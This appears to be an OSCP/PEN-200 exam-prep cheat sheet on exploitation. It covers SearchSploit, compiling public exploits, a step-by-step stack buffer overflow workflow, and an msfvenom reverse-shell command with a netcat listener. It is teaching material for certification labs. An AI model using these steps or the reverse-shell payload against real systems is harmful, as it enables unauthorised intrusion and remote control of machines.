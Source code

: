 ### Exploitation 
- **Identifying Vulnerabilities** – After enumeration, map services to potential exploits. Use **SearchSploit** to find known exploits for software versions ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=12,We%20recommended)). Example: `searchsploit apache 2.4.1` or for a specific CVE. Use `-p` to show path or `-m <ID>` to copy exploit locally ([pen-200.pdf](file://file-XV2ghZoyonfFYmRprsyMfQ#:~:text=kali%40kali%3A,)). Verify exploit applicability (e.g., target OS, version). Read exploit code/comments (using `searchsploit -x <ID>` or opening the file) before running to understand any requirements (like props to set or offsets).
- **Compile/Modify Exploits** – Many exploits (especially local privilege escalation ones) come in C or Python. On Kali, you can compile C code with GCC: `gcc exploit.c -o exploit` (add `-m32` for 32-bit, and `-pthread` or other flags if needed). For Linux kernel exploits, check the target architecture (`uname -m`). In Windows, if a precompiled exploit is not available, you might use MinGW on Kali to compile Windows exploits or search for a PowerShell/VBScript equivalent.
- **Buffer Overflow (BOF)** – The OSCP exam often includes a custom BOF exploit development. Steps (at a high level):
  1. **Fuzz** the service to find a crash (e.g., using `patterns_create.rb` or a simple Python fuzzer to send an increasing payload).
  2. **Find Offset** to EIP: Use Metasploit’s pattern tools: `msf-pattern_create -l <length>` to generate a pattern and send it, then note the EIP overwrite value. Run `msf-pattern_offset -q <EIP_value>` to get the exact offset where EIP is overwritten.
  3. **Verify Control**: Overwrite EIP with a unique marker (like “BBBB”) at the offset and ensure EIP becomes 0x42424242 in debugger.
  4. **Bad Characters**: Generate a bytearray of all possible bytes and send it in place of the payload to identify bad chars (commonly `0x00`, and others like `0x0a,0x0d` depending on context). Exclude bad chars from your final shellcode.
  5. **Find JMP/Call** to redirect code execution – typically find an address that will execute your shellcode (e.g., a **JMP ESP** in a loaded module with no ASLR/DEP). Use Mona (in Immunity debugger) or `!mona find -s "\xff\xe4" -m <module>` to find an address for `FFE4`.
  6. **Generate Shellcode**: Use **msfvenom** to create a payload that fits (e.g., reverse shell). Example: `msfvenom -p windows/shell_reverse_tcp LHOST=<YourIP> LPORT=<YourPort> EXITFUNC=thread -b "<badchars>" -f python` to get a Python format shellcode excluding bad chars. Or `-f c` for C style if embedding in code.
  7. **Build Exploit**: Structure: `[padding][EIP overwrite (jmp esp addr)][NOP sled][shellcode]`. Run the exploit and catch shell (set up a listener with `nc -lvnp <YourPort>`).
  – *Tip:* For OSCP’s vanilla BOF, follow the example from the **PEN-200** course exercises. Remember to disable DEP/ASLR if needed (exam BOF machines are usually preset for exploitation). Always check for common pitfalls (IP/port correctness, immunity debugger Paused state, etc).
- **Public Exploits Usage** – When using an exploit script, sometimes you need to modify it:
  - Set the target IP/port in the script or as arguments.
  - Adjust payload (some exploits allow you to specify custom shellcode or they may have a default bind shell – modify to reverse shell if needed).
  - Compile if source: for example, many Linux privilege exploits are provided as C code.
  - **Test in a safe manner**: if exploit is unreliable, consider a backup plan or try to understand what it does. Some exploits (especially older ones) might require tweaking delay or brute-forcing an offset.
- **Web Exploitation Tools** – Use **Burp Suite** as your proxy to intercept and modify HTTP requests on the fly (great for injecting payloads that browser might encode or for replaying requests with slight modifications). Use SQL inject methods listed below. “Automatic exploitation tools (e.g., db_autopwn, browser_autopwn, **SQLmap**, SQLninja, etc.)” are prohibited.
This means you need to **manually discover and exploit SQL injection** vulnerabilities **without** relying on automated scanning or exploitation features. Below is a **short guide** to **manually** perform SQL injection tests and extraction, so you can handle these scenarios within OSCP rules.
